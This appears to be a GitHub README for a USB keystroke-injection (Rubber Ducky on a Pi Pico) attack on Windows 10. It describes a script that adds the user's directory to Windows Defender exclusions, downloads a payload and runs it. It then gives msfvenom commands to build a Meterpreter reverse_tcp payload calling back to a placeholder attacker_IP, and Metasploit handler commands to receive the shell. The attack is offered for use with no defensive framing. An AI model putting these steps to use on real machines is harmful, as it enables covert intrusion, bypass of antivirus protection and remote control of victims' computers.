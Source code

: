 [Win10] Windows Defender ExclusionPath + ReverseShell
=============================================

This scrip will run PowerShell as administrator privilege and add directory of current User into Microsoft Windows Defender Exclusion. Then PowerShell will download payload file and run the payload. Last, exit the PowerShell.

1. Create payload using msfvenom in kali linux:
> $ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=attacker_IP lport=port -f exe -o windowsx64.exe
  
2. Upload your payload
  
3. Run Metasploit on Kali Linux:
> $ msfconsole <br />
> $ use exploit/multi/handler <br />
> $ set payload windows/x64/meterpreter/reverse_tcp <br />
> $ set LHOST attacker_IP <br />
> $ set LPORT port <br />
> $ run
  
4. Copy payload.dd script to Pi Pico.
  
5. Open payload.dd, edit URL and save.
  
5. Connect RubberDucky to Target Machine.
  
P/S : Tested on Windows 10 Version 21H1(OS Build 19043.1348)
  
![Win Ver](https://github.com/auffAzani/RubberDucky/blob/main/Windows%20Defender%20ExclusionPath%20%2B%20ReverseShell/Winver.PNG)

